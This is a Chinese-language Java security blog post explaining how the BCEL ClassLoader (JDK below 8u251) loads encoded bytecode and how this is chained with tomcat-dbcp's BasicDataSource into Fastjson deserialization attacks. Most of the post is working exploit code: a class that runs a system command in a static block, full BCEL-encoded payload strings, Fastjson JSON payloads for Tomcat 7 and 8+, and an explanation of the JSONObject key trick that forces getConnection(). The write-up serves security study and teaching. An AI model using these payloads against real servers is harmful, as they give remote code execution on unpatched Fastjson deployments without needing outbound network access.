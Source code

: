 ```yaml
---
title: Java安全之BCEL ClassLoader
date: 2024-03-13 16:53:00 +0800
img_path: /
categories: [Java安全, BCEL ClassLoader]
tags: [Java安全, BCEL ClassLoader]     
---
```


# Java安全之BCEL ClassLoader

## BCEL ClassLoader如何使用

在`JDK<JDK8u251`的版本里`BCEL`这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个`ClassLoader`，但是他重写了Java内置的`ClassLoader#loadClass()`方法。

在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行`decode`。

![image-20240313170215806](assets/image-20240313170215806.png)

我们尝试写一个恶意类通过BCEL去加载：

```java
package org.example;

import java.io.IOException;

public class Calc {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
package org.example;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Bcel {

    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Calc.class);
        String code = "$$BCEL$$"+Utility.encode(javaClass.getBytes(),true);
        System.out.println(code);

        new ClassLoader().loadClass(code).newInstance();
    }
}

```

将`Calc`这个恶意类通过BCEL生成BCEL形式的字节码。加载后便执行了类中的`static`方法。

![image-20240313170504150](assets/image-20240313170504150.png)

也可以这样：

```java
package org.example;

public class ClassLoaderDemo {
    public static void main(String[] args) {
        try {
Class.forName("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }
}
```



## BCEL在Fastjson漏洞中的利用

当前网络上广泛流传的利用链主要有以下三个：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

第一个是通过`TemplatesImpl`加载恶意字节码，但是要求是开启` Feature.SupportNonPublicField`也就是：`JSON.parseObject(jsonString, Feature.SupportNonPublicField);`，但是实战中很少遇到这样的情况所以不是好用。

第二个是通过`JNDI`注入的形式加载远程服务器上的恶意类，既然需要加载远程恶意类所以要求目标机器出网，这种情况就不适用不出网的机器。

第三个就是利用了依赖包 `tomcat-dbcp` 指定`BCEL ClassLoader `加载恶意类，这种情况不需要目标机器出网，但是要求目标服务器的JDK版本小于8u251，因为在大于该版本的JDK中删除了`com.sun.org.apache.bcel.internal.util.ClassLoader`。

`dbcp`通过控制`DriverClassName`加载恶意类：

```java
package org.example;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class DbcpDemo {
    public static void main(String[] args) throws Exception {
        BasicDataSource basicDataSource = new BasicDataSource();
        String calc = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbn$d3$40$U$3d$93$97c$d7i$f3$m$8f$96$3ey$ra$817$ec$S$b1$a9$40B$b8$a4j$a2T$5dN$86$n$99$e0$d8$91$e3$b4$f9$p$d6$d9$A$C$J$f6$7c$U$e2$8e$89$d2$a8$c5$92$ef$9d$7b$ce$b9$e7$5e$8f$7f$ff$f9$fe$T$c0K4$y$98$a8Y$d8$c5$5e$W$Pu$de7p$60$e0$d0B$GG$G$8e$N$9c0d$da$caW$d1$x$86d$a3$d9gH$9d$G$l$q$c3$8e$ab$7c$f9$7e$3e$Z$c8$b0$c7$H$k$nE7$Q$dc$eb$f3P$e9z$F$a6$a2$91$9a$c5$5c8t$e4$82O$a6$9etN$b9$tZ$M$d9$b6$f0V$d6$8c$a4ew$cc$af$b9$a3$C$e7m$e7$f5B$c8i$a4$C$9fd$b9n$c4$c5$a73$3e$8d$ziA$G$ab$h$ccC$n$df$u$3d$c2$d4v$_t$af$N$L$5b$G$k$d9x$8c$t4$9b$d6$R6$9e$e2$ZC$e9$3f$de$M$7b1$eaq$7f$e8$5c$cc$fdHM$e4$9a$d4$5eu$86$fc$dd$bd$J$bam$ea$M$c6RD$M$85$7b$3e$b4$e3PF$eb$a2$dch$ba$f74$f4m$v$b9$90dYol$b0$dd$uT$fe$b0$b5$d9p$k$GB$cef$d4P$dbT$f6Fap$a3$_$a5$d5$ec$e3$EY$fa$9b$faI$80$e9$8b$a0hS$e5Pf$94$d3$cf$bf$82$zc$3aG1$f3$P$c46E$7bu$deA$9er$W$85u$f3G$qc$ae$fa$N$89b$f2$LR$97$9f$91$7b$f7$D$99$xr3$7e$zc$d2$qi$9a$84$da$b6B$t$c4$9bl$Rj$Sf$Rf$af$c7$e4$I$x$a2D$d5$Dz$N$q$5c$De$93$88J$bcY$f5$_$i$9b$a2$9e$9c$C$A$A";
        ClassLoader classLoader = new ClassLoader();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName(calc);
        basicDataSource.getConnection();
    }
}
```

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

public class FastjsonDemo {
    public static void main(String[] args) {
        String exp1 = "{\n" +
                "        \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "        \"driverClassLoader\": {\n" +
                "            \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "        },\n" +
                "        \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A\"\n" +
                "}\n";
        String exp2 = "{\n" +
                "    {\n" +
                "        \"@type\": \"com.alibaba.fastjson.JSONObject\",\n" +
                "        \"x\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbn$d3$40$U$3d$93$97c$d7i$f3$m$8f$96$3ey$ra$817$ec$S$b1$a9$40B$b8$a4j$a2T$5dN$86$n$99$e0$d8$91$e3$b4$f9$p$d6$d9$A$C$J$f6$7c$U$e2$8e$89$d2$a8$c5$92$ef$9d$7b$ce$b9$e7$5e$8f$7f$ff$f9$fe$T$c0K4$y$98$a8Y$d8$c5$5e$W$Pu$de7p$60$e0$d0B$GG$G$8e$N$9c0d$da$caW$d1$x$86d$a3$d9gH$9d$G$l$q$c3$8e$ab$7c$f9$7e$3e$Z$c8$b0$c7$H$k$nE7$Q$dc$eb$f3P$e9z$F$a6$a2$91$9a$c5$5c8t$e4$82O$a6$9etN$b9$tZ$M$d9$b6$f0V$d6$8c$a4ew$cc$af$b9$a3$C$e7m$e7$f5B$c8i$a4$C$9fd$b9n$c4$c5$a73$3e$8d$ziA$G$ab$h$ccC$n$df$u$3d$c2$d4v$_t$af$N$L$5b$G$k$d9x$8c$t4$9b$d6$R6$9e$e2$ZC$e9$3f$de$M$7b1$eaq$7f$e8$5c$cc$fdHM$e4$9a$d4$5eu$86$fc$dd$bd$J$bam$ea$M$c6RD$M$85$7b$3e$b4$e3PF$eb$a2$dch$ba$f74$f4m$v$b9$90dYol$b0$dd$uT$fe$b0$b5$d9p$k$GB$cef$d4P$dbT$f6Fap$a3$_$a5$d5$ec$e3$EY$fa$9b$faI$80$e9$8b$a0hS$e5Pf$94$d3$cf$bf$82$zc$3aG1$f3$P$c46E$7bu$deA$9er$W$85u$f3G$qc$ae$fa$N$89b$f2$LR$97$9f$91$7b$f7$D$99$xr3$7e$zc$d2$qi$9a$84$da$b6B$t$c4$9bl$Rj$Sf$Rf$af$c7$e4$I$x$a2D$d5$Dz$N$q$5c$De$93$88J$bcY$f5$_$i$9b$a2$9e$9c$C$A$A\"\n" +
                "        }\n" +
                "    }: \"x\"\n" +
                "}";

        JSONObject jsonObject = JSON.parseObject(exp1);
        Object parse = JSON.parse(exp2);
    }
}
```

`tomcat7`：`org.apache.tomcat.dbcp.dbcp.BasicDataSource`

```xml
    <!-- https://mvnrepository.com/artifact/org.apache.tomcat/dbcp -->
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>dbcp</artifactId>
        <version>6.0.53</version>
    </dependency>
```

POC：

```Json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

`tomcat8`及其以后：`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

```xml
	<!-- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp -->
    <dependency>
        <groupId>org.apache.tomcat</groupId>
        <artifactId>tomcat-dbcp</artifactId>
        <version>9.0.8</version>
    </dependency>
```

POC：

```Json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

这里PoC结构上还有一个值得注意的地方在于，

1. 先是将 `{"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……} `这一整段放到`JSON Value`的位置上，之后在外面又套了一层 `{}`。
2. 之后又将` Payload `整个放到了`JSON` 字符串中 `Key `的位置上。

为什么这么设计呢？

因为为了完成前面说的一整个利用链，我们需要触发上方例子中的 `BasicDataSource.getConnection()` 方法。

具体细节请看 [FastJson反序列化漏洞利用的三个细节](https://mp.weixin.qq.com/s/C1Eo9wst9vAvF1jvoteFoA)，简单说就是：`FastJson`中的` JSON.parse() `会识别并调用目标类的 `setter` 方法以及某些满足特定条件的 `getter` 方法，然而` getConnection() `并不符合特定条件，所以正常来说在 `FastJson` 反序列化的过程中并不会被调用。原`PoC`中很巧妙的利用了 `JSONObject`对象的 `toString()` 方法实现了突破。`JSONObject`是Map的子类，在执行`toString() `时会将当前类转为字符串形式，会提取类中所有的`Field`，自然会执行相应的 `getter` 、`is`等方法。

## 